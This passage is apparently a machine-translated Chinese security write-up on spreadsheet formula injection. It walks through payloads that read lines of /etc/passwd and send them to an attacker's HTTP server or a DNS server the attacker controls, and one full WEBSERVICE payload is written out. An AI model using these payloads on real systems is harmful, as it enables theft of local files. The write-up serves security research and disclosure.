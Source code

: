 [![](https://p0.ssl.qhimg.com/t01b195b05adac307cc.png)](https://p0.ssl.qhimg.com/t01b195b05adac307cc.png)<br>
分析上述有效载荷：

> <p>‘file：///etc/passwd’#$passwd.AX – 将从本地/ etc / passwd文件读取第一行和第二行<br>
CONCATENATE（“HTTP：// &lt;IP&gt;：8080 /”，（ ‘文件：///etc/passwd’#$passwd.A1）＆CHAR（36）及（’ 文件：/// etc / passwd的’＃$ passwd.A2）） – 将攻击服务器IP地址与/ etc / passwd行第1行和第2行（文件中的第2行）的输出连接起来，每个行都用美元（$）字符<br>
WEBSERVICE – 将向我们的攻击主机发送针对给定URI的请求</p>

查看攻击主机，我们可以在GET请求中看到`/ etc / passwd`中的相应条目，在这个实例中由$字符`（CHAR 36）`分隔。

[![](https://p0.ssl.qhimg.com/t0172d28f73bbeab8d1.png)](https://p0.ssl.qhimg.com/t0172d28f73bbeab8d1.png)<br>
根据文件内容的不同，我们可能会遇到长度有问题的[问题](https://stackoverflow.com/questions/417142/what-is-the-maximum-length-of-a-url-in-different-browsers)<br>
我们在下一个PoC中解决了这些问题，并且没有强制性的DNS示例，要知道没有OOB数据泄露是完整的。<br>
Payload 4:

```
=WEBSERVICE(CONCATENATE((SUBSTITUTE(MID((ENCODEURL('file:///etc/passwd'#$passwd.A19)),1,41),"%","-")),".&lt;FQDN&gt;"))
```

[![](https://p0.ssl.qhimg.com/t01e08a0b317a1229d4.png)](https://p0.ssl.qhimg.com/t01e08a0b317a1229d4.png)<br>
分析上述有效载荷：

> <p>‘file：///etc/passwd’#$passwd.A19 – 将从本地/ etc / passwd文件中读取第19行<br>
ENCODEURL（’file：///etc/passwd’#$passwd.A19） – 对返回的数据进行URL编码<br>
MID（（ENCODEURL（’file：///etc/passwd’#$passwd.A19）），1,41） – 与子字符串类似，从第1个字符读取数据到第41个字符 – 一种非常方便的方式来限制DNS的长度主机名（FQDN上的254个字符限制和一个标签的63个字符，即子域）<br>
SUBSTITUTE（MID（（ENCODEURL（’file：///etc/passwd’#$passwd.A19）），1,41），“％”，“ – ”） – 替换％（URL中的特殊字符编码）与破折号 – 这是确保只有有效的DNS字符被使用<br>
CONCATENATE（（SUBSTITUTE（MID（（ENCODEURL（’文件：///etc/passwd’#$passwd.A19）），1,41），”％”，” – ‘）），’。&lt;FQDN&gt;”） – 将文件的输出（经过上述处理后）与FQDN（我们可以访问域的权威主机）连接起来，<br>
WEBSERVICE – 将请求这个不存在的DNS名称，然后我们可以在我们控制的DNS权威名称服务器上解析日志（或运行tcpdump等）</p>

在发送此消息时，我们可以通过我们的服务器上的tcpdump来查看FQDN（包括来自`/` etc / passwd`的第19行的编码数据）的查询，该服务器被配置为该域的权威服务器，如下所示。

[![](https://p5.ssl.qhimg.com/t015c45bd3499c3da48.png)](https://p5.ssl.qhimg.com/t015c45bd3499c3da48.png)
